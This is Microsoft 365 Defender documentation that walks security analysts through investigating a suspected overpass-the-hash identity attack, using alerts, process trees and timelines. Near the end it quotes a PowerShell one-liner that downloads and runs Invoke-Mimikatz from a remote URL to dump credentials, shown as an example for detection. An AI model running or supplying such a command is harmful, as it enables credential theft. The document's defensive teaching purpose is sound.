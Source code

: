 ```yaml
---
title: Example of an identity-based attack
description: Step through an example analysis of an identity-based attack.
keywords: incidents, alerts, investigate, correlation, attack, machines, devices, users, identities, identity, mailbox, email, 365, microsoft, m365, incident response, cyber-attack
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords: 
  - NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection: 
  - M365-security-compliance
  - m365solution-firstincident
  - highpri
ms.topic: conceptual
search.appverid: 
  - MOE150
  - MET150
ms.technology: m365d
---
```

# Example of an identity-based attack

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Applies to:**
- Microsoft 365 Defender

Microsoft Defender for Identity can help detect malicious attempts to compromise identities in your organization. Because Defender for Identity integrates with Microsoft 365 Defender, security analysts can have visibility on threats coming in from Defender for Identity, such as suspected Netlogon privilege elevation attempts.

## Analyzing the attack in Microsoft Defender for Identity

Microsoft 365 Defender allows analysts to filter alerts by detection source on the **Alerts** tab of the incidents page. In the following example, the detection source is filtered to **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Filtering the detection source in Microsoft Defender for Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

Selecting the **Suspected overpass-the-hash attack** alert goes to a page in Microsoft Defender for Cloud Apps that displays more detailed information. You can always find out more about an alert or attack by selecting **Learn more about this alert type** to read a [description of the attack](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) and remediation suggestions.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="A suspected overpass-the-hash attack alert" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## Investigating the same attack in Microsoft Defender for Endpoint

Alternatively, an analyst can use Defender for Endpoint to learn more about the activity on an endpoint. Select the incident from the incident queue, then select the **Alerts** tab. From here, they can identify the detection source as well. A detection source labeled as EDR stands for Endpoint Detection and Response, which is Defender for Endpoint. From here, the analyst selects an alert detected by EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="An Endpoint Detection and Response in the Microsoft Defender for Endpoint portal" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

The alert page displays various pertinent information such as the impacted device name, username, status of auto-investigation, and the alert details. The alert story depicts a visual representation of the process tree. The process tree is a hierarchical representation of parent and child processes related to the alert.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="An alert process tree in the Microsoft Defender for Endpoint" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Each process can be expanded to view more details. Details that an analyst can see are the actual commands that were entered as part of a malicious script, outbound connection IP addresses, and other useful information.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="The process details in the Microsoft Defender for Endpoint portal" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
By selecting **See in timeline**, an analyst can drill down even further to determine the exact time of the compromise. 

Microsoft Defender for Endpoint can detect many malicious files and scripts. However, due to many legitimate uses for outbound connections, PowerShell, and command-line activity, some activity would be considered benign until it creates a malicious file or activity. Therefore, using the timeline helps analysts to put the alert into context with the surrounding activity to determine the original source or time of the attack that otherwise is obscured by common file system and user activity. 

To use the timeline, an analyst would start at the time of the alert detection (in red) and scroll down backwards in time to determine when the original activity that led to the malicious activity actually started. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Analyst's start time for the alert detection" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

It is important to understand and distinguish common activity such as Windows Update connections, Windows Trusted Software activation traffic, other common connections to Microsoft sites, third-party Internet activity, Microsoft Endpoint Configuration Manager activity, and other benign activity from suspicious activity. One way to distinguish is by using timeline filters. There are many filters that can highlight specific activity while filtering out anything that the analyst does not want to view. 

In the image below, the analyst filtered to view only network and process events. This filter criteria allows the analyst to see the network connections and processes surrounding the event where Notepad established a connection with an IP address, which we also saw in the process tree. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="How Notepad was used to make a malicious outbound connection" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

In this particular event, Notepad was used to make a malicious outbound connection. However, often attackers will use iexplorer.exe to establish connections to download a malicious payload because ordinarily iexplorer.exe processes are considered regular web browser activity.

Another item to look for in the timeline would be PowerShell uses for outbound connections. The analyst would look for successful PowerShell connections with commands such as `IEX (New-Object Net.Webclient)` followed by an outbound connection to a website hosting a malicious file. 

In the following example, PowerShell was used to download and execute Mimikatz from a website:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
An analyst can quickly search for keywords by typing in the keyword in the search bar to display only events created with PowerShell. 

## Next step

See the [phishing](first-incident-path-phishing.md) investigation path.

## See also

- [Incidents overview](incidents-overview.md)
- [Manage incidents](manage-incidents.md)
- [Investigate incidents](investigate-incidents.md)
